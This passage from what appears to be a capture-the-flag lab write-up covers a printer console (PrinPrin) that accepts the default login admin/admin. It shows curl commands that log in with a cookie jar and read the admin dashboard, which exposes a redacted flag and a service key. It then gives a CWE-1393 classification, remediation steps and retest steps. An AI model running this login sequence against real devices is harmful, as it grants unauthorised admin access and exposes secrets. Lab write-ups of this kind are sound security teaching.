Access denied. Check the user name and password and try again.
```



**Figure 16: Terminal rejection.** The CLI response repeats the login page with `Access denied`; the cookie value is removed.

### Step 3: Reuse the Cookie Jar and Test the Default Password

```bash
curl -i -sS \
  -b prinprin.cookies \
  -c prinprin.cookies \
  -X POST "https://${LAB_HOST}/login.php" \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data 'username=admin&password=admin'
```

Observed result:

```text
HTTP/2 302
location: /dashboard.php
```



**Figure 17: Terminal authentication transition.** The second instance produces the same `200 + Access denied` versus `302 + /dashboard.php` response difference.

### Step 4: Request the Authenticated Dashboard

```bash
curl -i -sS \
  -b prinprin.cookies \
  "https://${LAB_HOST}/dashboard.php"
```

Observed result:

```text
HTTP/2 200
admin
Remote service key
WEBVERSE{REDACTED}
```



**Figure 18: Terminal impact proof.** The second instance returns the authenticated admin dashboard and the redacted Remote service key through `curl`.

The Terminal run independently reproduced the HTTP chain. The WebVerse submission remained a browser-only platform check and was already confirmed in Figure 14.

## 6. Controls and Results

| Check | Input | Result | Meaning |
| --- | --- | --- | --- |
| Public baseline | `GET /login.php` | `200`, login form | Confirms the entry point and request fields |
| Negative control | `admin/access` | `200`, `Access denied` | Shows the failed-login behavior |
| Default password | `admin/admin` | `302`, `/dashboard.php` | Confirms the default password is accepted |
| Authenticated follow-up | `GET /dashboard.php` with `pp_sid` | `200`, `admin`, Remote service key | Confirms the resulting admin access and disclosed key |
| Independent client | Same sequence with `curl` | Same response changes on a second instance | Confirms the result is not tied to the proxy UI |
| Platform result | Current flag submission | `CHALLENGE SOLVED` | Confirms the lab objective |

## 7. Root Cause and Classification

The root cause is [CWE-1393: Use of Default Password](/cwes/cwe-1393/). The console accepts a known default password for its administrator account and does not force a deployment-specific password before the management interface becomes reachable.

CWE-1393 is the specific default-password child of CWE-1392. I do not use CWE-798 here because the evidence does not show where the password is stored or whether it is hard-coded in source or configuration.

The response comparison removes the common false positive:

```text
Same route, method, username, session type, and body format

password=access
  > 200 OK
  > Access denied

password=admin
  > 302 Found
  > Location: /dashboard.php
  > authenticated dashboard follows
```

## 8. Confirmed Impact

The confirmed impact is limited to what the two reproductions showed:

- a public visitor can authenticate as the printer administrator with `admin/admin`;
- the resulting session can read the authenticated dashboard;
- the dashboard exposes device and supply status;
- the dashboard exposes recent job metadata;
- the dashboard exposes a Remote service key that the application says should be treated like a password.

I did not use the key, change settings, access another service, create persistence, or test broader account access.

## 9. Remediation

1. Remove shared default administrator passwords.
2. Generate a unique random password for each deployed device or instance.
3. Require the administrator to replace the initial password before network management is enabled.
4. Reject known factory values after setup and prevent password reuse during the first-change flow.
5. Restrict the management console to an administrator VLAN or VPN instead of exposing it to every reachable client.
6. Add login rate limits, temporary lockout, and useful authentication audit events.
7. Rotate the Remote service key after any default-password exposure.
8. Keep password-like service keys out of a general dashboard unless the active administrator explicitly requests to reveal them.

## 10. How to Verify the Fix

Retest on a clean instance after the remediation is deployed:

1. Confirm that `/login.php` is reachable only from the intended management network.
2. Send the same `admin/access` negative control and confirm rejection.
3. Send `admin/admin` and confirm rejection with no redirect to `/dashboard.php`.
4. Confirm that a unique initial credential is required and that first login forces a password change.
5. Request `/dashboard.php` without a valid authenticated session and confirm a redirect to the login page or `401/403`.
6. Sign in with the new unique administrator password and confirm that access is logged.
7. Confirm that the Remote service key was rotated and is hidden by default.
8. Repeat the checks in a proxy and with `curl` so browser behavior does not hide an authentication mistake.

## 11. Conclusion

PrinPrin was a short authentication case, but the negative control mattered. A `200 OK` response was the failed login, not success. Changing only `access` to `admin` changed the response to `302 /dashboard.php`, and the existing session then opened the printer dashboard as `admin`.

Caido and `curl` reproduced the same sequence on separate instances. The dashboard exposed recent job metadata and a Remote service key, WebVerse accepted the current flag, and I stopped there.
